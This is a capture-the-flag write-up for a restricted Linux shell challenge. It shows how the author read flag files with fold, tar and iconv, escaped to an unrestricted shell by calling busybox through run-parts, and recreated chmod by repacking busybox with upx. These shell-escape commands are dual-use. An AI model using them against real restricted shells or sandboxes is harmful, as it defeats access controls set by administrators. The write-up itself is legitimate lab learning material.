

# Main Flag

The challenge starts by providing us with a command prompt. However, is immediately apparent that commands are missing and you're unable to `cat` out files.

Listing out `/usr/bin` or `/bin` (where system binaries are stored) allows us to view what we can execute.

Using this information alongside the beautiful website . I am able to search for binaries that allow us to read a file.

After a little trial and error I come across the command `fold` that is used to wrap text to fit a specified width.

This, however, allows us to read local files! Taking the code snippet from `gtfobins` 

```
LFILE=file_to_read
fold -w99999999 "$LFILE"
```

We're able to print the `READEME.flag` to get the first flag (`-w` is just to specify the character width)

```bash
fold -w 1000 README.flag
```

FLAG:
```
CTF{4ll_D474_5h4ll_B3_Fr33}
```

# Bonus Flag

Alongside the previous flag there is another flag called `ORME.flag`, however it has 000 permissions (I.e. nobody can read or write it). We do, however, own the file so we can change the permissions using `chmod`. 

The 000 permissions are shown bellow:
```
----------    1 1338     1338            33 Jun 23 17:20 ORME.flag
```

This would all well and good if the `chmod` binary was present on the machine, it is not so we need to find another way.

On the machine all the binaries are being linked to `busybox`. This is a binary designed to house all required binaries in a convenient bundle. This is our target as it will have the required `chmod` baked in!

However, attempting to run it gives us:

```
busybox can not be called for alien reasons.
```

We're, again, going to have to find another way. 

After attempts to change the name of the binary with `install` and other ineffective methods I finally found what I've been looking for. A binary called `run-parts`.

`run-parts` is used to execute all scripts in a directory, this means we can run `busybox` without it being filtered!

For ease of output I made a copy of the `busybox` binary in the `/tmp` directory using `install`:

```
install /bin/busybox /tmp
```

This allows me to only run that script instead of all of the binaries in `busybox`'s home `/bin`

Then running the command:

```
run-parts /tmp"
```

Gives us the output:

```
BusyBox v1.29.3 (2019-01-24 07:45:07 UTC) multi-call binary.
BusyBox is copyrighted by many authors between 1998-2015.
Licensed under GPLv2. See source distribution for detailed
copyright notices.

Usage: busybox [function [arguments]...]
   or: busybox --list[-full]
   or: busybox --install [-s] [DIR]
   or: function [arguments]...

	BusyBox is a multi-call binary that combines many common Unix
	utilities into a single executable.  Most people will create a
	link to busybox for each function they wish to use and BusyBox
	will act like whatever it was invoked as.

Currently defined functions:
	[, [[, acpid, add-shell, addgroup, adduser, adjtimex, arch, arp,
	arping, ash, awk, base64, basename, bbconfig, beep, blkdiscard, blkid,
	blockdev, brctl, bunzip2, bzcat, bzip2, cal, cat, chgrp, chmod, chown,
	chpasswd, chroot, chvt, cksum, clear, cmp, comm, conspy, cp, cpio,
	crond, crontab, cryptpw, cut, date, dc, dd, deallocvt, delgroup,
	deluser, depmod, df, diff, dirname, dmesg, dnsdomainname, dos2unix, du,
	dumpkmap, dumpleases, echo, ed, egrep, eject, env, ether-wake, expand,
	expr, factor, fallocate, false, fatattr, fbset, fbsplash, fdflush,
	fdformat, fdisk, fgrep, find, findfs, flock, fold, free, fsck, fstrim,
	fsync, fuser, getopt, getty, grep, groups, gunzip, gzip, halt, hd,
	hdparm, head, hexdump, hostid, hostname, hwclock, id, ifconfig, ifdown,
	ifenslave, ifup, init, inotifyd, insmod, install, ionice, iostat, ip,
	ipaddr, ipcalc, ipcrm, ipcs, iplink, ipneigh, iproute, iprule,
	iptunnel, kbd_mode, kill, killall, killall5, klogd, less, link,
	linux32, linux64, ln, loadfont, loadkmap, logger, login, logread,
	losetup, ls, lsmod, lsof, lspci, lsusb, lzcat, lzma, lzop, lzopcat,
	makemime, md5sum, mdev, mesg, microcom, mkdir, mkdosfs, mkfifo,
	mkfs.vfat, mknod, mkpasswd, mkswap, mktemp, modinfo, modprobe, more,
	mount, mountpoint, mpstat, mv, nameif, nanddump, nandwrite, nbd-client,
	nc, netstat, nice, nl, nmeter, nohup, nologin, nproc, nsenter,
	nslookup, ntpd, od, openvt, partprobe, passwd, paste, patch, pgrep,
	pidof, ping, ping6, pipe_progress, pkill, pmap, poweroff, powertop,
	printenv, printf, ps, pscan, pstree, pwd, pwdx, raidautorun, rdate,
	rdev, readahead, readlink, readprofile, realpath, reboot, reformime,
	remove-shell, renice, reset, resize, rev, rfkill, rm, rmdir, rmmod,
	route, run-parts, sed, sendmail, seq, setconsole, setfont, setkeycodes,
	setlogcons, setpriv, setserial, setsid, sh, sha1sum, sha256sum,
	sha3sum, sha512sum, showkey, shred, shuf, slattach, sleep, smemcap,
	sort, split, stat, strings, stty, su, sum, swapoff, swapon,
	switch_root, sync, sysctl, syslogd, tac, tail, tar, tee, test, time,
	timeout, top, touch, tr, traceroute, traceroute6, true, truncate, tty,
	ttysize, tunctl, udhcpc, udhcpc6, umount, uname, unexpand, uniq,
	unix2dos, unlink, unlzma, unlzop, unshare, unxz, unzip, uptime, usleep,
	uudecode, uuencode, vconfig, vi, vlock, volname, watch, watchdog, wc,
	wget, which, whoami, whois, xargs, xxd, xzcat, yes, zcat
```

This means busybox has been sucessfully run!

Using this alongside the `--arg` parameter of `run-parts` we can spawn an actual shell that will have zero restrictions.

Running:
```
run-parts /tmp --arg sh
```
Spawns us a shell that allows us to run `busybox`

This lets us run (777 Means everyone can read, write and execute the file. The most open permission you can apply to a file)
```
busybox chmod 777 /challenge/ORME.flag
```

We can now retrieve the flag with:

```
busybox cat /challenge/ORME.flag
```

FLAG:
```
CTF{Th3r3_1s_4lw4y5_4N07h3r_W4y}
```

# Alternative Solutions

With a challenge like this with the huge number of different binaries and all their sub-options there is bound to be more than one way to complete the challenge. Here I will document any other solutions and their authors, so please if you have a working solution that is not listed here please contact me and I'll add it to the README.

## Alternative Main Solutions

### tar
Credit: [madushan1000](https://github.com/madushan1000)

`tar` can be used to print out the flag as it is being compressed into a archive.

Running: 
```
tar cvf - README.flag
```

Will produce the output:
```
README.flag0000400000247200024720000000003413504135746010423 0ustar  13381338README.flag
CTF{4ll_D474_5h4ll_B3_Fr33}
```

### iconv
Credit: [TheSeanis](https://github.com/TheSeanis), [ArtificialAmateur](https://github.com/ArtificialAmateur)

`iconv` can also be used to print the conetents of a file. `iconv` is used to convert the encoding of text.

Running just:
```
iconv README.flag
```

I really like this solution as it's the cleanest one I've seen so far.

## Alternative Bonus Solutions

### upx
Credit: [madushan1000](https://github.com/madushan1000)

On the machine is the binay `upx`. This is used to pack binaries, however this can be used to pack `busybox` into a frakenstien `chmod` binary that will allow us to change the permissions of the `ORME.flag`.

Running:
```
upx  -ochmod /bin/busybox
```

Will create us a file called `chmod` that when executed can be used like the official tool.

Same as above running:

```
./chmod 777 ORME.flag
```

Will change the permissions and allow us to view the file!